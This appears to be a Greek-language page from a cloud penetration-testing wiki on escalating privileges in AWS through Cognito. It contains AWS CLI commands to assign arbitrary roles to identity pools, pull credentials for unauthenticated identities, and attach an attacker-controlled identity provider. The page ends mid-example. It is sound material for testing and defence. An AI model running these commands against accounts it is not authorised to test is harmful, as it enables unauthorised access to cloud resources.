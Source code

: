 # AWS - Cognito Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cognito

Για περισσότερες πληροφορίες σχετικά με το Cognito, ελέγξτε:

{{#ref}}
../aws-services/aws-cognito-enum/
{{#endref}}

### Συλλογή διαπιστευτηρίων από Identity Pool

Καθώς το Cognito μπορεί να παρέχει **διαπιστευτήρια ρόλου IAM** τόσο σε **πιστοποιημένους** όσο και σε **μη πιστοποιημένους** **χρήστες**, αν εντοπίσετε το **Identity Pool ID** μιας εφαρμογής (θα πρέπει να είναι σκληρά κωδικοποιημένο σε αυτήν), μπορείτε να αποκτήσετε νέα διαπιστευτήρια και επομένως privesc (μέσα σε έναν λογαριασμό AWS όπου πιθανώς δεν είχατε κανένα διαπιστευτήριο προηγουμένως).

Για περισσότερες πληροφορίες [**ελέγξτε αυτή τη σελίδα**](../aws-unauthenticated-enum-access/#cognito).

**Πιθανές Επιπτώσεις:** Άμεσο privesc στους ρόλους υπηρεσιών που συνδέονται με μη πιστοποιημένους χρήστες (και πιθανώς με αυτούς που συνδέονται με πιστοποιημένους χρήστες).

### `cognito-identity:SetIdentityPoolRoles`, `iam:PassRole`

Με αυτήν την άδεια μπορείτε να **παρέχετε οποιονδήποτε ρόλο cognito** στους πιστοποιημένους/μη πιστοποιημένους χρήστες της εφαρμογής cognito.
```bash
aws cognito-identity set-identity-pool-roles \
--identity-pool-id <identity_pool_id> \
--roles unauthenticated=<role ARN>

# Get credentials
## Get one ID
aws cognito-identity get-id --identity-pool-id "eu-west-2:38b294756-2578-8246-9074-5367fc9f5367"
## Get creds for that id
aws cognito-identity get-credentials-for-identity --identity-id "eu-west-2:195f9c73-4789-4bb4-4376-99819b6928374"
```
Αν η εφαρμογή cognito **δεν έχει ενεργοποιημένους τους μη αυθεντικοποιημένους χρήστες**, μπορεί να χρειαστείτε επίσης την άδεια `cognito-identity:UpdateIdentityPool` για να την ενεργοποιήσετε.

**Πιθανές Επιπτώσεις:** Άμεση privesc σε οποιονδήποτε ρόλο cognito.

### `cognito-identity:update-identity-pool`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να ρυθμίσει για παράδειγμα μια Cognito User Pool υπό τον έλεγχό του ή οποιονδήποτε άλλο πάροχο ταυτότητας όπου μπορεί να συνδεθεί ως **τρόπος πρόσβασης σε αυτή την Cognito Identity Pool**. Στη συνέχεια, απλά **συνδεόμενος** σε αυτόν τον πάροχο χρηστών θα **του επιτρέψει να έχει πρόσβαση στον ρυθμισμένο αυθεντικοποιημένο ρόλο στην Identity Pool**.
```bash
# This example is using a Cognito User Pool as identity provider
## but you could use any other identity provider
aws cognito-identity update-identity-pool \
--identity-pool-id <value> \
--identity-pool-name <value> \
[--allow-unauthenticated-identities | --no-allow-unauthenticated-identities] \
--cognito-identity-providers ProviderName=user-pool-id,ClientId=client-id,ServerSideTokenCheck=false

# Now you need to login to the User Pool you have configured
## after having the id token of the login continue with the following commands:

```